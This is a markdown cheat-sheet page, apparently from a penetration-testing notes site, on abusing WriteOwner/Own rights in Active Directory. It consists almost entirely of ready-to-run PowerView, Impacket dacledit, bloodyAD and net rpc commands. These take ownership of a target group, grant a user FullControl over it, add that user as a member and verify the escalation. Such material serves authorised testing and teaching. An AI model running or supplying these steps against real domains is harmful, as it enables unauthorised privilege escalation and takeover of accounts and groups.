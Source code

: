 ```yaml
---
title: "WriteOwner/Own"
date: 2024-7-27
tags: ["Writeowner", "Permissions", "Powerview", "Impacket", "AddMember", "Domain Controller", "Active Driectory", "Windows", "Dacledit"]
---
```


### Abuse #1 : Change owner of the group

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Import PowerView

```console
. .\PowerView.ps1
```

#### 2. Change owner

```console
Set-DomainObjectOwner -Identity <TARGET_GROUP> -OwnerIdentity <TARGET_USER>
```

{{< /tabcontent >}}

### Abuse #2 : Add user to the group

{{< tab set2 tab1 active >}}Linux{{< /tab >}}{{< tab set2 tab2 >}}Windows{{< /tab >}}
{{<  tabcontent set2 tab1  >}}

#### 0. Install latest impacket (included dacledit.py)

```console
git clone https://github.com/fortra/impacket.git
```

```console
cd impacket
```

```console
pip3 install .
```

#### 1. Add full control permission to the user over the group

```console
sudo ntpdate -s <DC> && dacledit.py -k '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC> -principal <USER> -target <TARGET_GROUP> -inheritance -action write -rights FullControl
```

#### 2. Add the user to group

{{< tab set3 tab1 active >}}bloodyAD{{< /tab >}}{{< tab set3 tab2 >}}rpc{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
python3 bloodyAD.py -k -d <DOMAIN> -u '<USER>' -p '<PASSWORD>' --host <DC> add groupMember '<TARGET_GROUP>' '<USER>'
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
kinit <USER>
```

```console
sudo ntpdate -s <DC> && net rpc group addmem '<TARGET_GROUP>' '<USER>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}

#### 3. Check

```console
sudo ntpdate -s <DC> && net rpc group members '<TARGET_GROUP>' -U '<USER>' --use-kerberos=required -S <DC> --no-pass
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

#### 1. Import PowerView.ps1 

```console
. .\PowerView.ps1
```

#### 2. Create a cred object (runas) \[optional\]

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $password
```

#### 3. Add user to group

```console
Add-DomainObjectAcl -TargetIdentity <TARGET_GROUP> -PrincipalIdentity '<DOMAIN>/<USER>' -Rights All -DomainController <DC> -Credential $cred
```

```console
Add-DomainGroupMember -Identity <TARGET_GROUP> -Members <USER> -Credential $cred
```

#### 4. Check

```console
Get-DomainGroupMember -Identity <TARGET_GROUP> -Domain <DOMAIN> -DomainController <DC> -Credential $cred | fl MemberName
```

```console
# Or
net user <USER>
```

```console
# Exit current sessions or re-login
whoami /groups
```

{{< /tabcontent >}}
